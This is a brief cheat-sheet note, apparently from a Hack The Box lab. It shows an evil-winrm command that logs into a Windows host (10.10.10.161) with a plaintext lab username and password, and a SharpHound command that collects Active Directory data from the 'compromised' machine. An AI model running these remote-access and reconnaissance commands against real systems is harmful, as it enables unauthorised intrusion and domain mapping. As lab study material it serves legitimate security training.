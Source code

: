 Access a windows machine with evil win-rm:
```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice -s <path to sharphound.exe>
```

Download files with sharphound on a compromised windows machine with evil-winrm.

```
.\SharpHound.exe --collectionmethods all --domain htb.local --ldapusername svc-alfresco --ldappassword s3rvice
```
